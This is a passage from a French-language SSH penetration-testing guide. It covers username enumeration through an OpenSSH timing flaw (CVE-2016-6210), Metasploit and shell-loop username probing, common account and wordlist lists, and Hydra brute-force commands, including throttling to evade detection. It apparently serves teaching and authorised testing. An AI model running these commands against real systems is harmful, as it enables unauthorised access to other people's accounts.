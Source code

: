 #### Timing Attack (CVE-2016-6210)
```bash
# Vulnerability dans OpenSSH < 7.3
# Différence de timing entre users existants/inexistants

# Script Python pour timing attack
python ssh_enum_timing.py target.com userlist.txt

# Ou avec Metasploit
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS target.com
set CHECK_FALSE true    # Active timing analysis
run
```

#### Manual Username Testing
```bash
# 1. Test manuel avec noms communs
for user in root admin administrator user guest; do
    echo "Testing $user"
    timeout 3 ssh $user@target.com 2>&1 | grep -v "Connection closed"
done

# 2. Test avec wordlist
while read username; do
    timeout 3 ssh $username@target.com 2>&1 | grep -v "timeout\|Connection closed"
done < /usr/share/seclists/Usernames/Names/names.txt
```

### 📋 Listes d'utilisateurs courantes à tester
```bash
# Comptes système communs
root, admin, administrator, user, guest, operator

# Comptes de service
backup, nagios, postgres, mysql, apache, nginx, git

# Noms personnels génériques  
john, mike, admin123, test, demo, service

# Wordlists recommandées
/usr/share/seclists/Usernames/top-usernames-shortlist.txt
/usr/share/wordlists/metasploit/unix_users.txt
```

## 🔐 Phase 3 : Test d'Authentification

### Brute Force Attacks

#### Hydra (Le plus populaire)
```bash
# 1. Attaque avec user connu, wordlist password
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com ssh

# 2. Wordlist users ET passwords
hydra -L users.txt -P passwords.txt target.com ssh

# 3. Avec limitations (éviter détection)
hydra -l admin -P passwords.txt -t 4 -w 3 target.com ssh
# -t 4 = 4 threads max
# -w 3 = 3 secondes d'attente

# 4. Avec utilisateur spécifique
```